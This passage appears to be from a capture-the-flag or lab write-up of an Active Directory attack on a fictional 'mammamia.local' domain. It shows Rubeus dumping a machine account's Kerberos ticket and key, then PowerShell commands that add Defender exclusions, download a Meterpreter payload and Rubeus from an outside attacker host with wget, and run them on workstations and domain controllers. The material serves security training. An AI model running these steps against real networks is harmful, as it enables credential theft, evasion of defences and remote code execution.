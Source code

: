 ```powershell
```

We can see that the machine account itself has a TGT, but we also notice `silvia.galli` has one. Let's get back to that in a bit.

For now, let's dump the TGT of the `factws$` machine account:

```powershell
C:\Windows\Temp\attacker> .\rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


Action: Dump Kerberos Ticket Data (All Users)

[*] Target service  : krbtgt
[*] Target LUID     : 0x3e4
[*] Current LUID    : 0x4a6095

  UserName                 : factws$
  Domain                   : FACTORIES
  LogonId                  : 0x3e4
  UserSID                  : S-1-5-20
  AuthenticationPackage    : Negotiate
  LogonType                : Service
  LogonTime                : 5/16/2024 9:28:10 PM
  LogonServer              :
  LogonServerDNSDomain     :
  UserPrincipalName        : factws$@factories.mammamia.loca


    ServiceName              :  krbtgt/FACTORIES.MAMMAMIA.LOCAL
    ServiceRealm             :  FACTORIES.MAMMAMIA.LOCAL
    UserName                 :  FACTWS$ (NT_PRINCIPAL)
    UserRealm                :  FACTORIES.MAMMAMIA.LOCAL
    StartTime                :  5/16/2024 9:29:14 PM
    EndTime                  :  5/17/2024 7:29:14 AM
    RenewTill                :  5/23/2024 9:29:14 PM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  cYtC3zyHQc/7Hi4uhAfxu+JnuZhVVITYybu4W905C2c=
    Base64EncodedTicket   :

      doIGAjCCBf6gAw[...]
```


[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      